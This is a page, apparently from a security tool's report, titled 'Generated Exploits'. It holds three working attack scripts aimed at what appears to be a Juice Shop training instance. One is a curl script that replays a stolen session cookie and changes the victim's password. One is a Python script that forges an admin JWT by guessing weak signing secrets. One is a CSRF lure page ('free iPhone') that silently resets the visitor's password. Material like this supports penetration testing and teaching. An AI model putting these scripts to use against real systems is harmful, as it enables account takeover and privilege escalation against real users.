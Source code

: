 **Section 3: Generated Exploits**
```
═══ EXPLOIT PAYLOADS ═══

EXPLOIT #1: Session Cookie Replay
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
#!/bin/bash
# Stolen Session Exploit
SESSION="sessionId=abc123def456"
curl -b "$SESSION" http://target:3003/api/Users/me
curl -b "$SESSION" http://target:3003/rest/basket
curl -b "$SESSION" -X POST http://target:3003/rest/user/change-password \
     -d '{"new":"hacked123","repeat":"hacked123"}'
# Result: Changed victim's password!

EXPLOIT #2: JWT Token Manipulation
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
python3 << 'PYTHON'
import jwt
import json

# Stolen token
token = "eyJhbGciOiJIUzI1NiI..."

# Decode without verification
payload = jwt.decode(token, options={"verify_signature": False})
print("Original:", json.dumps(payload, indent=2))

# Modify payload (privilege escalation)
payload['id'] = 1  # Change to admin user ID
payload['role'] = 'admin'

# Re-encode (if we know the secret key)
# Or try common keys: secret, jwt_secret, 123456
for secret in ['secret', 'jwt_secret', '123456']:
    try:
        new_token = jwt.encode(payload, secret, algorithm='HS256')
        print(f"Try with secret '{secret}': {new_token}")
    except:
        pass
PYTHON

EXPLOIT #3: CSRF Attack Vector
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
<!-- Malicious HTML page -->
<html>
<body>
<h1>Click here for free iPhone!</h1>
<img src="http://juice-shop:3003/api/BasketItems" 
     style="display:none">
<script>
  // Victim's browser automatically sends their cookies!
  fetch('http://juice-shop:3003/rest/user/change-password', {
    method: 'POST',
    credentials: 'include',
    body: JSON.stringify({
      new: 'hacked123',
      repeat: 'hacked123'
    })
  });
</script>
</body>
</html>

```